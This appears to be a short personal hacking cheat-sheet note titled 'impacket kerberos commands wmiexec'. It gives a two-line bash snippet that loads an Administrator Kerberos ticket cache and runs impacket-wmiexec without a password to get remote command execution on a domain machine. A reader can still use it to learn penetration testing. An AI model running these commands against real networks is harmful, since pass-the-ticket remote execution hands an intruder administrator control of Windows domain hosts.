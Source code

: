 # impacket kerberos commands wmiexec
```bash
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-wmiexec -k -no-pass domain.local/Administrator@fqdn.domain.local
```

# References
- [20221003150748](/zet/20221003150748/) impacket kerberos commands
- ~/kb/hacking/commands/windows-active-directory-kerberos-commands.md

Tags:
    #assorted

